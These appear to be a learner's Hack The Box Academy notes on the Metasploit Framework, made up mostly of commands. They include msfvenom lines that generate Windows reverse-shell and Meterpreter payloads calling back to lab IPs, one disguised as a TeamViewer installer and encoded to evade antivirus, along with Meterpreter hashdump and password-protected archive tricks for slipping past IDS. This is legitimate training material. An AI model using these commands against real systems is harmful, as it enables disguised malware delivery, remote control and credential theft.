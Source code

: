 ## Introduction to Metasploit : 

![](https://github.com/nolancarougepro/Hack-The-Box-Academy/blob/main/Tier%200/Easy/Using%20the%20Metasploit%20Framework/Images/MetasploitProject.png)

Metasploit Pro : 
- Task Chains
- Social Engineering
- Vulnerability Validations
- GUI
- Quick Start Wizards
- Nexpose Integration

![](https://github.com/nolancarougepro/Hack-The-Box-Academy/blob/main/Tier%200/Easy/Using%20the%20Metasploit%20Framework/Images/Uses.png)

## Introduction to MSFconsole : 

```shell
msfconsole

msfconsole -q (without the banner)
```

![](https://github.com/nolancarougepro/Hack-The-Box-Academy/blob/main/Tier%200/Easy/Using%20the%20Metasploit%20Framework/Images/S04_SS03.png)

## Modules : 

Module syntax :
```shell-session
<No.> <type>/<os>/<service>/<name>
```

![](https://github.com/nolancarougepro/Hack-The-Box-Academy/blob/main/Tier%200/Easy/Using%20the%20Metasploit%20Framework/Images/TypeModule.png)

Example search :
```shell-session
msf6 > search type:exploit platform:windows cve:2021 rank:excellent microsoft
```

## Targets : 

Get information about an exploit :
```shell
msf6 exploit(windows/browser/ie_execcommand_uaf) > info
```

Show vulnerable machines (then set target to select) :
```shell-session
msf6 exploit(windows/browser/ie_execcommand_uaf) > show targets
```

## Payloads :

![](https://github.com/nolancarougepro/Hack-The-Box-Academy/blob/main/Tier%200/Easy/Using%20the%20Metasploit%20Framework/Images/RHOST.png)
![](https://github.com/nolancarougepro/Hack-The-Box-Academy/blob/main/Tier%200/Easy/Using%20the%20Metasploit%20Framework/Images/LHOST.png)

Common windows payload : 
![](https://github.com/nolancarougepro/Hack-The-Box-Academy/blob/main/Tier%200/Easy/Using%20the%20Metasploit%20Framework/Images/Windows%20common%20payload.png)

## Encoders : 

Shikata Ga Nai (`SGN`) is one of the most utilized Encoding schemes.

```shell
NolanCarougeHTB@htb[/htb]$ msfpayload windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 R | msfencode -b '\x00' -f perl -e x86/shikata_ga_nai
```

Without encoding : 
```shell
NolanCarougeHTB@htb[/htb]$ msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl
```

With encoding : 
```shell
NolanCarougeHTB@htb[/htb]$ msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl -e x86/shikata_ga_nai
```

Show available encodings :
```shell-session
msf6 exploit(windows/smb/ms17_010_eternalblue) > show encoders
```


54/69 : 
```shell
NolanCarougeHTB@htb[/htb]$ msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=8080 -e x86/shikata_ga_nai -f exe -o ./TeamViewerInstall.exe
```

More iterations, 52/69 : 
```shell
NolanCarougeHTB@htb[/htb]$ msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=8080 -e x86/shikata_ga_nai -f exe -i 10 -o /root/Desktop/TeamViewerInstall.exe
```

To directly test if the payloads are identified :
```shell
NolanCarougeHTB@htb[/htb]$ msf-virustotal -k <API key> -f TeamViewerInstall.exe
```

## Databases : 

It is possible to use databases integrated into MSF.

## Plugins : 

List the available plugins :
```shell
NolanCarougeHTB@htb[/htb]$ ls /usr/share/metasploit-framework/plugins
```

Load a plugin :
```shell
msf6 > load nessus
```

## Sessions : 

```shell-session
msf6 exploit(windows/smb/psexec_psh) > sessions

msf6 exploit(windows/smb/psexec_psh) > sessions -i 1
```

```shell-session
msf6 exploit(multi/handler) > exploit -j
```

Once a session is open, bg to put it in the background. Next we look for a sudo exploit. We will use it with the corresponding session.

## Meterpreter : 

```shell
meterpreter > help
meterpreter > hashdump
```

## Firewall and IDS/IPS Evasion : 

```shell
NolanCarougeHTB@htb[/htb]$ msfvenom windows/x86/meterpreter_reverse_tcp LHOST=10.10.14.2 LPORT=8080 -k -e x86/shikata_ga_nai -a x86 --platform windows -o ~/test.js -i 5
``` 

```shell
NolanCarougeHTB@htb[/htb]$ wget https://www.rarlab.com/rar/rarlinux-x64-612.tar.gz
NolanCarougeHTB@htb[/htb]$ tar -xzvf rarlinux-x64-612.tar.gz && cd rar
NolanCarougeHTB@htb[/htb]$ rar a ~/test.rar -p ~/test.js
```

```shell-session
NolanCarougeHTB@htb[/htb]$ mv test.rar test
NolanCarougeHTB@htb[/htb]$ rar a test2.rar -p test
NolanCarougeHTB@htb[/htb]$ mv test2.rar test2
```
